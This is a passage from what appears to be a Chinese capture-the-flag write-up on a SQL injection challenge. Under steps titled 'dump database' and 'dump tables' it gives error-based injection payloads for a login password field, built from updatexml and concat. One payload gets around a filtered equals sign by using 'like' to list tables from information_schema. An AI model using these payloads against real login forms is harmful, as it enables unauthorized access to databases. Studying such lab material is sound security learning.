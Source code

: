 **2. 爆库**

```bash
username=admin&password=admin'or(updatexml(1,concat(0x7e,(select(database()))),3))%23
```

<img src="CTF.assets/image-20230622002635692.png" alt="image-20230622002635692" style="zoom:50%;" />

**3. 爆表**

这里由于过滤了`=`，所以使用`like`关键字

```bash
username=admin&password=-1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like("geek")))),3))%23
```
